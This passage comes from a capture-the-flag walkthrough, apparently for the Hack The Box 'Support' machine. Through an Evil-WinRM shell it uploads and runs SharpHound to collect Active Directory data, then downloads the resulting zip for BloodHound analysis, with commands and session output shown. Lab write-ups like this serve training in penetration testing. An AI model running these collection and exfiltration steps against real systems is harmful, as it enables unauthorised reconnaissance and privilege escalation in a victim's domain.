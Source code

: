 Next we will need to do some more enumeration to find a path for privilege escalation. We'll be using sharphound to collect Active Directory information. Precompiled binaries can be found at the following links.

Sharphound: [https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)

Bloodhound: [https://github.com/BloodHoundAD/BloodHound/releases](https://github.com/BloodHoundAD/BloodHound/releases)

As we wont be using evasion techniques running sharphound on the target is simply a matter of uploading the binary to our target using EvilWinRM and executing it. Bloodhound will be used on our local machine to visually graph our target environment using the info we collected with sharphound. This takes a bit of setup which I will not cover here, I would recommend using the following guide to complete the initial Neo4j and Bloodhound setup: [https://github.com/duncandw/Howto-Install-neo4j-and-BloodHound-on-Ubuntu](https://github.com/duncandw/Howto-Install-neo4j-and-BloodHound-on-Ubuntu)

```text-plain
*Evil-WinRM* PS C:\Users\support\Documents> upload /home/kali/Desktop/HTB/Machines/support/SharpHound.exe
Info: Uploading /home/kali/Desktop/HTB/Machines/support/SharpHound.exe to C:\Users\support\Documents\SharpHound.exe

                                                           
Data: 1402196 bytes of 1402196 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\support\Documents> dir


    Directory: C:\Users\support\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          4/3/2023   4:34 PM        1051648 SharpHound.exe
```

Now that sharphound has been uploaded and we have verified on the target we can run sharphound with the collect all switch as we would like to collect as much information as possible and don't care how much noise we make.

```text-plain
.\SharpHound.exe --memcache -c all -d support.htb -DomainController 127.0.0.1
```

Once its done we will need to download the zip file that it created to our local machine so we can load it into bloodhound.

```text-plain
*Evil-WinRM* PS C:\Users\support\Documents> download 20230403164937_BloodHound.zip
```

Back on our local machine we will open bloodhound in a browser and simply drag the zip file in and drop it. Use the queries in the menu to enumerate the AD environment and discover relationships between accounts. 
